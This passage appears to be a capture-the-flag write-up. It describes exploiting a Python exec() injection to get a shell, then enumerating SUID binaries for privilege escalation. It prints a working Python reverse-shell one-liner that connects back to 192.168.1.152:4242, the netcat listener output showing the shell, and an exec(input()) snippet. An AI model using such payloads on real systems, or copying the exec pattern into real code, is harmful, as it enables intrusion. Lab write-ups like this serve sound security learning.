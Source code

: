 
```python
eval(2+2)
> 4
```
Thus i crafted the a simple python script which take a user input and run the string input through the exec() python3 function.

Python Code:
```python
user_inp = input('')
exec(user_inp)
```

User Input:
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.152",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![plot](/Images/Pylington/8.png)


```bash
└─# nc -lvnp 4242                                                                                                                                                     
listening on [any] 4242 ...
connect to [192.168.1.152] from (UNKNOWN) [192.168.1.50] 52724
[http@archlinux /]$ whoami
whoami
http
[http@archlinux /]$ id
id
uid=33(http) gid=33(http) groups=33(http)
[http@archlinux /]$ 
```

Great we are now onto the server as HTTP user.

## shell as py
After doing some standard enumeration like running linpeas and other enumeration tool, the below stands out to me. 



```bash
http@archlinux tmp]$ python3 suid3num.py                                                                                                                                 
…
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/home/py/typing
/usr/bin/ksu
/usr/bin/chage
/usr/bin/sg
/usr/bin/unix_chkpwd
/usr/bin/expiry
/usr/bin/suexec
------------------------------
…
…    
```
Let's try running the `/home/py/typing` to see what it does.
After running this the program, it seems to ask me to type the sentence `the quick brown fox jumps over the lazy dog` in order for it to give me a password. 
``` 
[http@archlinux tmp]$ /home/py/typing
/home/py/typing
```